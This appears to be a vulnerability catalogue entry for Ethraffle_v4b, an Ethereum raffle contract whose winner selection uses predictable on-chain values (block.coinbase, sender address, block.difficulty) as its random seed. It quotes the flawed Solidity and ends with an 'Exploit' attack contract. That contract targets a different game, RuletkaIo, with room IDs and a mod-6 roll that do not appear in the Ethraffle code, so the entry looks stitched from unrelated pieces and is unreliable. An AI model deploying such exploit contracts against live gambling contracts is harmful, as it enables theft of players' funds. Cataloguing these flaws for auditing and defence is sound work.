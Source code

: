 Ethraffle_v4b
======
https://etherscan.io/address/0xcC88937F325d1C6B97da0AFDbb4cA542EFA70870#code

Vulnerability type
------
Bad randomness

Abstract
------
A gambling smart contract implementation for Ethraffle_v4b, an Ethereum gambling game, sells tickets and after the last ticket in a round was sold randomly generates a winner from the buyers who will claim the price, generates a random value that is predictable by attacker. The developer wrote a `chooseWinner()` function that uses block coinbase and difficulty as the seed. This can be predicted by writing the same random function code in an exploit contract to determine the `winningNumber` value.

Related code
------

    function buyTickets() payable public {
        ......
        // Choose winner if we sold all the tickets
        if (nextTicket == totalTickets) {
            chooseWinner();
        }
        ......
    }
    
    function chooseWinner() private {
        address seed1 = contestants[uint(block.coinbase) % totalTickets].addr;
        address seed2 = contestants[uint(msg.sender) % totalTickets].addr;
        uint seed3 = block.difficulty;
        bytes32 randHash = keccak256(seed1, seed2, seed3);

        uint winningNumber = uint(randHash) % totalTickets;
        address winningAddress = contestants[winningNumber].addr;
        
        ......
        
        winningAddress.transfer(prize);
    }

Exploit
------
    contract attack{
    
        function attack(address _target, uint256 roomId, uint256 s_idx, uint256 amount) public payable{
        
            address[] players;
            uint256 entryPrice;
        
            RuletkaIo target = RuletkaIo(_target);
            uint256 rand = uint256(uint256(keccak256(block.timestamp, block.difficulty)))%6;
            if(rand < s_idx){
                for(uint256 i = s_idx; i<6; i++){
                    target.enter.value(amount)(roomId);
                }
            }
            msg.sender.transfer(this.balance);
        }
    }
